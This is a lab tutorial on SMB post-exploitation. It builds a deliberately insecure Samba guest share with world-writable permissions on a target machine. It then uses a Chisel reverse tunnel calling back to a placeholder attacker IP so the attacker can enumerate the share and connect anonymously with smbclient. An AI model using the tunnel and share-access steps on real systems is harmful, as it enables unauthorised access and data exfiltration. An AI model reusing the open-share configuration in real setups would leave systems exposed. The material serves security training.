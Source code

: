 The Server Message Block (SMB) protocol is a client-server communication protocol used primarily for sharing access to files, printers, and other network resources, originally designed for Windows systems but is now supported on Linux using `Samba`. SMB currently relies on ports `445` and `139`. Attackers may use this to their advantage in hacking and post-exploitation to access shared files, check for misconfigured permissions, exfiltrate data, or find and harvest credentials or other data. 

**Target** | On **ubuntu_target**, install and configure `samba`
```bash
apt update

apt install samba -y
```

**Target** | Create a shared folder:
```bash
mkdir -p /srv/public

chmod 777 /srv/public

echo "This is a secret file" > /srv/public/readme.txt
```
**Target** | Add the share to `/etc/samba/smb.conf`:
```ini
[public]
path = /srv/public
public = yes
writable = yes
guest ok = yes
```

**Target** | `ubuntu_target` needs to host the SMB share on `localhost:445`. To do this, manually start `samba` as a background process and confirm it is running: 
```bash
smbd -D

ps aux | grep smbd
```

**Attacker** | On **Kali root-user terminal**, start the Chisel server: 
```bash
chisel server -p 8080 --reverse
```

**Target** | On **ubuntu_target**, start the Chisel Client to expose SMB (`localhost:445`):
```bash
chisel client -v http://<attacker-ip>:8080 R:445:localhost:445
```

**Attacker** | On a **Kali root-user terminal**, use `smbclient` to scan **ubuntu_target** for accessible shares: 
```bash
smbclient -L //localhost/public -N
```
- `-L` tells `smbclient` to list available shares. The `//localhost` specifies the internal SMB server.

**Attacker** | Connect to the share:
```bash
smbclient //localhost/public -N
```
- `public -N` means we are going to connect anonymously 
